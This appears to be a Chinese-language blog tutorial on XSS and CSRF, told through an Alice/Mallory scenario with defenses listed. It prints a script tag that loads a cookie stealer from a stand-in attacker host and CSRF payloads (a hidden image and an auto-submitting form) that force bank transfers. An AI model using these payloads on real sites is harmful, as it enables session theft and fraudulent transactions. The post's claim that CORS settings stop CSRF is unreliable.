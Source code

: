 ```yaml
---
layout: post
title: xss and csrf
---
```


## xss

wiki里讲了两个xss攻击的例子. 非持续性xss(Non-persistent)，也称为Reflected xss.(来自陌生人的) 与 持续性(Persistent)攻击。

### Non-persistent

Alice 经常去一个Blob的网站，且Blob的网站允许Alice使用username/password登录和存储一些敏感信息，
当用户登录的时候Blob会将认证凭据存到Cookie中以供client到server端验证身份。

Mallory发现Bob的网站存在reflected xss 漏洞, 过程如下:

* 当在搜索页面，Mallory输入一些词汇并点击提交按钮, 如果找不到结果blob的页面会提示这个词汇 Not found, 此时的页面URL为`http://blobwebsite.com?q=her input term`

* 对于一个正常的搜索，例如搜索`pupples`, 如果该搜索页面未找到的话会提示`pupples not found`, 此时的url为`http://blobwebsite.com?q=pupples`

* 然而，当Mallory提交一个正常的搜索请求，例如`<script type='text/javascript'>alert('xss');</script>`, 出现了下面几个现象: 1. 一个弹窗出现，弹出"xss", 2.伴随着弹窗的同时页面显示`<script type='text/javascript'>alert('xss');</script> not found` 3. 此时的url为`http:blobwebsite.com?q=<script%20type='text/javascript'>alert('xss');</script>`


在发现了存在xss漏洞之后，Mallory手写了一个url: `http:blobwebsite.com?q=puppies%3Cscript%2520src%3D%22http%3A%2F%2Fmallorysevilsite.com%2Fauthstealer.js%22%3E%3C%2Fscript%3E`, 看起来像一个正常的url，但是decode其中的hex字符之后，真实的url如下:`http:blobwebsite.com?q=puppies<script%20src="http://mallorysevilsite.com/authstealer.js"></script>`。

接着Mallory将该地址通过email的形式发送给一些使用blobwebsite的成员，并且还告诉他们一些诱导性信息，例如:  [点击查看可爱的小狗狗](https://www.google.com/search?q=cute+puppy&tbm=isch&tbo=u&source=univ&sa=X&ved=0ahUKEwjB587hru_TAhUV3GMKHXgJAO4QsAQIIg&biw=1263&bih=703)

当该email被喜欢小狗的alice打开的时候，即使Alice比较有心的查看了url之后恐怕也不会过度起疑。但是当Alice随手点开这条链接之后会看到`pupples not found`以及伴随着的Mallory脚本的执行。(此时便触发了xss攻击行为)。 这时候Mallory的脚本几乎可做任何事情, 包括将Alice的登录凭证Cookie发送给Mallory的服务器。 拿到登录凭证之后Mallory便可以伪装成Alice登录到blobwebsite，并且查看其敏感信息。更加过分一些还可以更改掉Alice的密码，让Alice无法登陆。


xss攻击的预防可以用下面几种方法

* 通过合适的编码进行检查搜索输入中含有的HTML敏感数据，例如`script`,`object`,`embed`,`link`,`iframe`
* web server可以重定向无效的请求。 例如当Alice的请求含有xss的链接后，server端进行检查之后直接重定向到安全页面
* web server可以检测同时登陆行为，并且可以将登陆凭据设置为过期.
* web server检测到同时登陆来自不同ip后将client的session设置为过期
* 网站可以只显示部分信用卡号码(意味敏感信息数据即使登陆后也不能直接查看完整信息，需要二次验证)
* 网站可以在用户更改注册信息时，例如密码，需要再次输入密码。
* 网站可以使用[Content Security Policy](https://en.wikipedia.org/wiki/Content_Security_Policy)(内容安全策略) 来指定允许加载的脚本。
* 告诉用户不要随意点击不可信链接
* 设置Cookie为`HttpOnly` 来阻止JavaScript访问Cookie


### Persistent attack

接着上面的例子，Non-persistent需要Mallory发email给注册了Blob网站的用户，受影响的仅限于邮件内用户。这时候Mallory换了一种思路，使用持续性xss来影响更大范围内的用户。

首先Mallory注册了一个Blob网站的账号。

Mallory发现Blob的网站存在一个xss漏洞: 如果你在一个帖子下面留言，那么评论里将显示你输入的任何内容. 如果输入中含有html标签，评论区也会显示相应的标签和运行其中的脚本。

接着Mallory在一个帖子下面发了一条留言`I love the puppies in this story! They're so cute!<script src="http://mallorysevilsite.com/authstealer.js">`

当其他人(不只是作者)加载该页面时Mallory的脚本都会被执行，并且偷取他们的Cookie发送到Mallory的服务器。

之后Mallory就可以使用这些登录凭据来做任何事情了。


### 结语

其实xss的种类有很多种，其中原理几乎全部是想尽办法将恶意脚本注入页面内，并且执行攻击者的脚本。
上面的xss防范方法对于很多情况下都适用。


## csrf

CSRF意思为跨站请求伪造，也就是让客户自己不知情的情况下发起一个恶意请求，网站服务器接收到请求后以为是用户自己发出的执行一些非常规性操作。 CSRF并不能偷取用户数据，但能以用户的身份发起恶意请求。

攻击流程大致如下:

假设Alice向Blob转账一笔钱的请求为`GET`请求，url为`GET http://bank.com/transfer.do?acct=BLOB&amount=100 HTTP/1.1
`

Mallory发现了back.com网站存在CSRF漏洞(没有开启同源策略)，于是构造了一条向自己转账的链接`http://bank.com/transfer.do?acct=Mallory&amount=100000`

接着Mallory可以给Alice发一封HTML邮件，例如一个可点击的链接`<a href="http://bank.com/transfer.do?acct=Mallory&amount=100000">View my Pictures!</a>` 但是可能还不够好，因为该请求不会自动执行，此时也可以用一张0*0大小的图片替代
`<img src="http://bank.com/transfer.do?acct=Mallory&amount=100000" width="0" height="0" border="0">`
这样当Alice打开这封邮件时便会自动发起这条GET请求，达到攻击的目的。

如果转账的请求为`POST`, 例如

~~~
POST http://bank.com/transfer.do HTTP/1.1

acct=BLOB&amount=100
~~~

此时便可以构造一个特殊的邮件内容下

~~~
<body onload="document.forms[0].submit()">
<form action="http://bank.com/transfer.do" method="POST">
<input type="hidden" name="acct" value="Mallory"/>
<input type="hidden" name="amount" value="100000"/>
<input type="submit" value="View my pictures"/>
</form>
~~~

这样当Alice打开邮件后便会发起这条POST请求，以此来达到攻击的目的。

类似的其他HTTP方法，`PUT` 和 `DELETE` 原理类似，可以手动通过`XMLHttpRequest`的方式来发起请求。 不过CSRF目前基本上可用之处已经很少见了，只要浏览器和web server开启不允许跨域便可以组织 CSRF 型攻击方式。

所以，当心你的 `Access-Control-Allow-Origin: *`
